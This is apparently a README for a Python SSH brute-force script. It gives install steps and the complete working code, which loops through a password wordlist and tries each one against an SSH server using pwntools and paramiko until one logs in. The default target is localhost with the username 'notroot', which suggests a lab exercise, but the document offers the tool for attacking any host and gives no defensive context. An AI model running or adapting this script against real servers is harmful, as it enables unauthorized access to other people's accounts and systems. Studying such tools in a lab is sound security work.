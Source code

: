 # SSH Brute Force Script
This Python script is designed to perform a brute-force attack on an SSH server by trying multiple passwords from a Wordlist file. It uses the paramiko library to handle SSH connections and the pwn library for various utilities.

## Features
- SSH Connection Attempts: The script attempts to connect to an SSH server using different passwords from a provided word list.
- Exception Handling: Handles authentication exceptions gracefully, ensuring the script runs even if a password attempt fails.
- Efficiency: Stops the brute force attempt as soon as a valid password is found.
## Usage
### Prerequisites:

- Install the required libraries:
```
pip install paramiko pwntools
```
- Prepare the Wordlist:

Create a file named ssh-wordlist.txt containing the passwords to be tested, each on a new line.

- Run the Script:

Update the host and username variables in the script as per your target.
- Execute the script:
  
```
from pwn import *
import paramiko

host = '127.0.0.1'    # Target SSH server IP address
username = 'notroot'  # SSH username
attempts = 0          # Counter for the number of attempts

with open('ssh-wordlist.txt', 'r') as passs:
    for password in passs:
        password = password.strip('\n')
        try:
            print("[{}] attempting password: '{}'!".format(attempts, password))
            response = ssh(host=host, user=username, password=password, timeout=1)
            if response.connected():
                print("[>] valid password found: '{}'!".format(password))
                response.close()
                break
            response.close()
        except paramiko.ssh_exception.AuthenticationException:
            print('[x] invalid password')
        attempts += 1
```
